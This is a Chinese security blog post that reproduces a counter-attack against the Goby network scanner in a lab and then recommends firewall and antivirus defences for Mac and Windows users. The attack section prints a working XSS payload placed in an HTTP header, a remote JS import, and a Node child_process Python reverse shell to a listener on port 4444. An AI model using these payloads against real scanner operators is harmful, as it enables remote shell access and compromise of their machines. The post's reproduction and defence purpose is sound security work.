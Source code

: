 ```yaml
---
title: 反制 Goby RCE 复现及 Mac 用户防御策略
date: 2021-08-13 15:35:45
id: 210813-153545
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813150936.png
tags:
- 防御
- 反制
- RCE
categories:
- 经验总结
---
```


# 0x00 前言

最近看到网上反制 Goby 的文章，而自己平时 Mac 一直是裸奔的状态，这下整的自己有点慌了，这里就来记录下反制 Goby RCE 的复现以及 Mac 用户的防御策略。

# 0x01 反制 Goby RCE 复现

## XSS

为了方便，这里直接使用 PhpStudy 了，这里的 PhpStudy 地址为 http://172.16.214.4 ，直接将 Web 服务里的 index.php 改为以下内容。

```
<?php
header("X-Powered-By: PHP/<img	src=1	onerror=alert(\"TeamsSix@WgpSec\")>");
?>
```

Goby 在扫描到 http://172.16.214.4 后，点击扫描结果里的 172.16.214.4  就会弹窗了。

> 注意扫描结果里一定要点击对应的 IP 才行，比如我这里的 IP 是 172.16.214.4，不然是触发不了的

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813145503.png)

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813144712.png)

## RCE

RCE 需要再新建一个 js 文件，这里我在 172.16.214.4 的 www 目录下新建了一个名为 mac 的 js 文件，js 内容如下：

```
(function(){
require('child_process').exec('open /System/Applications/Calculator.app');
require('child_process').exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.214.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
})();
```

执行这段 JS 会在本地打开计算器，并利用 Python 反弹 Shell 到 172.16.214.4 主机的 4444端口。

之后将 index.php 修改如下：

```
<?php
header("X-Powered-By: PHP/<img	src=1	onerror=import(unescape('http%3A//172.16.214.4/mac.js'))>");
?>
```

172.16.214.4 上使用 NC 开启 4444 端口监听后，Goby 开启扫描，点击扫描结果里的 172.16.214.4 的详细信息，成功反弹 Shell.

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813150226.png)

# 0x02 Mac 用户防御策略

裸奔的 Mac 真的是一反弹一个准，太没安全感了，于是在师傅们的推荐下，入手了 little snitch，little snitch 官网链接：[https://www.obdev.at/products/littlesnitch](https://www.obdev.at/products/littlesnitch)

> 声明下这个不是广告啊，只是分享下自己在 Mac 中的防御方法而已

little snitch 可以用来监控 Mac 中所有的联网行为，界面长这个样子，个人觉着还是挺漂亮的。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813151240.png)

实测下来，还是不错的，即使在 Silent 模式下，当监测到有异常连接行为时也会告警，在使用过程中也是能成功拦截到反弹 Shell 请求的。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813150936.png)

不过 little snitch 是付费的，个人觉着买个家庭装是比较划算的，家庭装支持 5 台设备，几个小伙伴拼个单，每个人约合 94 元，另外这个比较良心的是它这个有效期是永久的。

一向习惯了白嫖的我，想了想为了安全考虑还是剁手了，毕竟我可不想那天被反制了，要是被反制了那就 GG 了。

说到这里也许会有人好奇，为啥不说说 Windows 用户的防御策略，于是我自己实际测试了一下，发现在 Windows 下装个杀软就行了，这里以火绒为例，当监测到反弹 Shell 动作时，火绒会直接弹出告警，所以感觉 Windows 就没啥好说的了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210813143544.png)

好了，这篇文章就到这里了，在此没有过多赘述产生原因细节等，因为主要是想分享下自己的防御策略，具体的漏洞细节参考下面的参考文章即可。

> 参考文章：
>
> [https://mp.weixin.qq.com/s/tl17-Qz-VXpSlZtZWDgeHg](https://mp.weixin.qq.com/s/tl17-Qz-VXpSlZtZWDgeHg)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
